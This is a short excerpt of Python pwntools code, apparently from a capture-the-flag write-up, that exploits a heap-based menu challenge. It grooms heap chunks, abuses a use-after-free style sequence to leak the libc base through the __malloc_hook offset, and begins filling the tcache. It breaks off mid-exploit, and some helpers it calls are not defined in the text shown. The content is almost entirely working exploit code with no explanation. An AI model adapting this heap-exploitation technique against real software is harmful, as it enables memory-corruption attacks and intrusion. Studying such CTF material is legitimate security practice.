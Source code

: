 ```python
def Exchange(val1, val2, opt):
    Write('Choice:', '2')
    Write('.', str(val1))
    Write('.', str(val2))
    sh.sendline(str(opt))

def Show(val):
    Write('Choice:', '3')
    Write('.', str(val))

def Edit(val, Content):
    Write('Choice:', '6')
    Write('?', str(val))
    Write('.', Content, opt = True)

def Xor():
    Write('Choice:', '5')

# now = 0
Add('a', 100)
Add('a', 200)
Add('a', 2)
# make heap chunk to bypass check
for i in range(16): 
    Add('a' * 0xf00, 3 + i)
Add('a' * 0x930 + '\x00', 20)
Add('b\x00', 1)
for i in range(8):
    Add('a' * 0x80 + '\x00', 201 + i) # 21 - 28
Xor()
# now = 1
Add('a', 1000)
Xor()
Dele(1)
# now = 0
Exchange(201, 1000, 0)
Xor()
# now = 1
Dele(201)
Xor()
# now = 0
Show(201)
sh.recvuntil('\n')
libcbase = u64(sh.recvuntil('\n', drop = True).ljust(8, '\x00')) - libc.symbols['__malloc_hook'] - 0x70
log.success('libcbase: ' + hex(libcbase))

Xor()
# now = 1
for i in range(9):
    Add('a' * 0x60 + '\x00', 1001 + i)
for i in range(16):
    Add('a' * 0xf00 + '\x00', 1500 + i)
Xor()
# 0
Add('a' * 0x3c0 + '\x00', 201)
Xor()
# 1
Add('a' * 0x100 + '\x00', 1517)
for i in range(7): # fill tcache 
    Add('a' * 0x100 + '\x00', 1600 + i)
Dele(1600)

```